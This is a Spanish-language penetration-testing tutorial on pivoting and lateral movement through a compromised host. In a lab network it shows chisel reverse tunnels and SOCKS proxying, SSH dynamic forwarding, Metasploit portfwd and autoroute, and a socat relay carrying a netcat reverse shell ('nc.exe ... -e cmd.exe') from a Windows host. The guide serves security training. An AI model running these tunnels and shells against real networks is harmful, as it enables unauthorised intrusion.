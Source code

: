```yaml
---
title: "Pivoting - Técnicas de movimiento lateral"
draft: false
weight: 50
contributors: ["Kryot"]
date: 2022-08-29T09:19:42+01:00
---
```


## <span style="color:#b31d36">Diagrama De Red </span>

Vamos a utilizar el diagrama a continuación como ejemplo para la utilizacion de las distintas herramientas. Donde Kali es nuestra máquina, Ubuntu es el activo que utilizaremos para pivotar, y Windows es el activo al que se desea llegar.

<img src="pivoting.png">

---
## <span style="color:#b31d36"> Port Forwarding </span>

Se crea una conexión entre un puerto local y un solo puerto en un objetivo, a través de un host comprometido. Esta técnica tiende a ser más rápida y más confiable que el proxy, pero solo nos permite acceder a un solo puerto (o un pequeño rango) en un solo dispositivo de destino. 

### <span style="color:#b31d36">Chisel Port Forwarding</span>

**Kali Machine** - 192.168.100.118
```
chisel server --reverse -p 1234
```

* reverse: permite a los clientes establecer conexiones reverse tunneling
* p: puerto de escucha http

**Ubuntu Machine** - 192.168.100.135/10.0.0.2
```
chisel client 192.168.100.118:1234 R:127.0.0.1:80:10.0.0.3:80
```

* R: \<local-interface\>:\<local-port\>:\<remote-host\>:\<remote-port\>


### <span style="color:#b31d36">Metasploit Portfwd</span>

In a meterpreter session

```
portfwd add -l 1234 -p 3389 -r 10.10.10.10
```
* l: puerto de escucha local
* p: puerto remoto a conectarse
* r: host remoto a conectarse
---

## <span style="color:#b31d36">Proxying/Tunneling</span>

Cuando hablamos de proxy, creamos una conexión a través de una máquina comprometida para enrutar todo el tráfico deseado a la red de destino. Un proxy es útil si deseamos redirigir mucho tráfico a nuestra red de destino, por ejemplo, un escaneo NMAP o para acceder a múltiples puertos en múltiples máquinas diferentes.

### <span style="color:#b31d36">Chisel Socks Proxy</span>

**Kali Machine** - 192.168.100.118
```
chisel server --reverse -p 1234
```

* reverse: permite a los clientes establecer conexiones reverse tunneling
* p: puerto de escucha http

**Ubuntu Machine** - 192.168.100.135/10.0.0.2
```
chisel client 192.168.100.118:1234 R:socks
```

### <span style="color:#b31d36">SSH Port Dynamic Forwarding</span>

**Kali Machine** - 192.168.100.118
```
ssh kryot@10.0.0.2 -D 1337
```
* D: puerto dinámico local

**Burpsuite** 
```
Configure User Options - SOCKS Proxy
Host 127.0.0.1
Port 1337
```
**Proxychains**
```
nano /etc/proxychains.conf
```

### <span style="color:#b31d36">SOCAT Tunneling</span>

**Kali Machine** - 192.168.100.118
```
nc -lvnp 7878
```
**Ubuntu Machine** - 192.168.100.135/10.0.0.2
```
socat TCP-LISTEN:7777,reuseaddr,fork tcp:192.168.100.118:7878
```
* TCP-LISTEN: establece puerto en escucha
* reuseaddr: permite reutilizar el puerto después de la finalización del programa
* fork: indicamos que socat pueda aceptar más de una conexión.

**Windows Machine** - 10.0.0.3
```
nc.exe 10.0.0.2 7777 -e cmd.exe
```
### <span style="color:#b31d36">Metasploit Autoroute</span>

In a meterpreter session

```
run autoroute -s 10.0.0.3 -n 255.255.255.0
```
* s: host
* n: máscara de red - default 255.255.255.0
